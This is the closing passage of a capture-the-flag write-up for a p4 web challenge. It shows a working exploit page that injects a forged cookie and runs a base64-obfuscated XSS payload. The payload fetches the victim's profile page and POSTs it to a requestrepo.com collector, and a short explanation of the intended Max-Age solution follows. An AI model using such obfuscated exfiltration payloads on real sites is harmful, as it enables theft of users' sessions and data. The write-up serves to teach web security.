 ```html
    `setTimeout(async ()=>{
        fetch('https://w6bcg3ji.requestrepo.com');
        p = await fetch('https://ctftime.pl/profile').then(r => r.text());
        fetch('https://w6bcg3ji.requestrepo.com',{method:'POST',body:p})
    },500)

    b64 encoded`

    document.getElementById("uname").value = `<script>eval(atob('c2V0VGltZW91dChhc3luYyAoKT0+ewoJCWZldGNoKCdodHRwczovL3c2YmNnM2ppLnJlcXVlc3RyZXBvLmNvbScpOwoJCXAgPSBhd2FpdCBmZXRjaCgnaHR0cHM6Ly9jdGZ0aW1lLnBsL3Byb2ZpbGUnKS50aGVuKHIgPT4gci50ZXh0KCkpOwoJCWZldGNoKCdodHRwczovL3c2YmNnM2ppLnJlcXVlc3RyZXBvLmNvbScse21ldGhvZDonUE9TVCcsYm9keTpwfSkKCX0sNTAwKQ=='))<\/script>","password":"pwdpwd"};Path=/.%2Fprofile;Abc=`;
    document.getElementById("form").submit();

    // wait for a response
    await new Promise(r => setTimeout(r, 500));

    location = "https://ctftime.pl/.%2Fprofile";
}
</script>
</body>
</html>
```

The intended solution was to use `Max-Age` instead of `Path` to create a cookie that immediately expires, such that you can navigate to `/profile` the first time with your forged cookie, then XSS a request to `/profile` again with the admin's cookie. Both follow the same general concept.

Once again, thank you to p4 for some great web challenges, and thank you for reading!